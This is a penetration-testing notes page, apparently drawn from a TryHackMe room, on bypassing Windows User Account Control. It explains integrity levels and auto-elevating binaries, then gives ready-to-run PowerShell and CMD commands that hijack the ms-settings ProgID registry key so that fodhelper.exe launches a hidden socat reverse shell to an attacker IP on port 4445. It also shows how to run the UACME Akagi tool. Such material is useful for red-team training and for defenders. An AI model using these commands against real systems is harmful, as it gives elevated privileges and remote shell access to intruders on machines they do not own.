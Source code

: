 # UAC Bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default.. 

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs  
The following 4 ILs are used by Windows, ordered from lowest to highest:  

| Integrity Level         | Use                                                 |
| ----------------------- | --------------------------------------------------- |
| Low                     | Very limited permissions                            |
| Medium                  | users and Administrators' filtered tokens.          |
| High                    | Administrators' elevated tokens if UAC is enabled.  |
| System                  | Reserved for system use.                            |

### AutoElevate 
some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:  
    - The executable must be signed by the Windows Publisher  
    - The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/  
    - Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.  

Indeed we can leverage this executables to bypass UAC. Let's dive in:  
{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

 Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID and AutoElevate binary to bypass UAC
we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.  
{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
```bash
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
{% hint style="danger" %}
Detected by Windowds Defender
{% endhint %}
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe
```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```  
{% endtab %}
{% endtabs %}  

### Automated Exploitation
{% tabs %}
{% tab title="UACME" %}
While [UACME](https://github.com/hfiref0x/UACME) provides several tools, we will focus mainly on the one called **Akagi**, which runs the actual UAC bypasses  
If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```bash
C:\tools>UACME-Akagi64.exe 33
```  
{% endtab %}
{% endtabs %}  

## References

{% embed url="https://tryhackme.com/room/bypassinguac" %}
{% embed url="https://github.com/hfiref0x/UACME" %}
{% embed url="https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses" %}
